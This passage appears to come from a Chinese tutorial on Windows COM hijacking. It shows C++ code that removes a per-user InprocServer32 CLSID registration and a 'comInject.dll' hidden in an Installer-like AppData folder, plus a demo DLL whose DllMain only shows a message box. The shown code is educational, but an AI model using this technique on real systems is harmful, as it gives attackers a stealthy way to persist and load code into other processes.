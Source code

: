 ```c++
    string defaultPath = "C:\\Users\\administrator\\AppData\\Roaming\\Microsoft\\Installer\\{BCDE0395-E52F-467C-8E3D-C4579291692E}";
    string szSaveName = "C:\\Users\\messi\\AppData\\Roaming\\Microsoft\\Installer\\{BCDE0395-E52F-467C-8E3D-C4579291692E}\\comInject.dll";

    if (ERROR_SUCCESS != RegCreateKeyExA(HKEY_CURRENT_USER,
        "Software\\Classes\\CLSID\\{b5f8350b-0548-48b1-a6ee-88bd00b4a5e7}\\InprocServer32",
        0, NULL, 0, KEY_WRITE, NULL, &hKey, &dwDisposition))
    {
        printf("创建注册表失败！");
        return 0;
    }

    if (ERROR_SUCCESS != RegDeleteValueA(hKey, NULL))
    {
        printf("移除DLL文件失败！");
        return 0;
    }

    if (ERROR_SUCCESS != RegDeleteValueA(hKey, "ThreadingModel"))
    {
        printf("移除ThreadingModel失败！");
        return 0;
    }

    remove(szSaveName.c_str());
    remove(defaultPath.c_str());

    ::MessageBoxA(NULL, "Delete comInject OK", "", MB_OK);
}
int main(int argc, char* argv[])
{
    COMInject();

    //UnCOMInject();

    return 0;
}
```

这里就生成一个最简单的弹窗吧，dll代码如下：

```c++
// dllmain.cpp : 定义 DLL 应用程序的入口点。
# include "pch.h"
# include <stdlib.h>

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        MessageBoxA(0, "comInject OK", "", 0);
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```
